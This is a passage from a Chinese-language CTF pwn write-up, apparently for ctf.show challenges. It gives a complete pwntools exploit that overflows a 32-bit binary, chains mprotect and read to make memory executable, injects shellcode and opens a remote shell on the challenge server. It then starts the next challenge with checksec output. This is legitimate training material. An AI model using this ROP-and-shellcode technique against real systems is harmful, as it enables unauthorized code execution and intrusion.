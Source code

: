 ```python
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
payload = b'a'*(0x12+4)
payload += p32(0x0806cdd0) # mprotect函数地址
payload += p32(0x08056194) # 3 pop 1 ret地址	
payload += p32(0x080da000) # 需要修改的内存的起始地址
payload += p32(0x1000) # 修改内存空间的大小
payload += p32(0x7) # 需要赋予的权限
payload += p32(0x806bee0) # read函数地址
payload += p32(0x080da000) # read函数返回地址(就是我们shellcode所在地址,即我们修改的内存空间的起始地址)
payload += p32(0x0) 
payload += p32(0x080da000) # shellcode地址
payload += p32(len(shellcode))
```

完整exp：

```python
# -*- coding: UTF-8 -*-
from pwn import *
u=remote("pwn.challenge.ctf.show",28307)
shellcode = asm(shellcraft.sh(),arch='i386',os='linux')
payload = b'a'*(0x12+4)
payload += p32(0x0806cdd0) # mprotect函数地址
payload += p32(0x08056194) # 3 pop 1 ret地址
payload += p32(0x080da000) # 需要修改的内存的起始地址
payload += p32(0x1000) # 修改内存空间的大小
payload += p32(0x7) # 需要赋予的权限
payload += p32(0x806bee0) # read函数地址
payload += p32(0x080da000) # read函数返回地址(就是我们shellcode所在地址,即我们修改的内存空间的起始地址)
payload += p32(0x0)
payload += p32(0x080da000) # shellcode地址
payload += p32(len(shellcode))
u.sendline(payload)
u.sendline(shellcode)
u.interactive()
```

## pwn50

```c
[*] 'C:\\Users\\26597\\Desktop\\pwn50'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

看到puts函数

提示libc版本
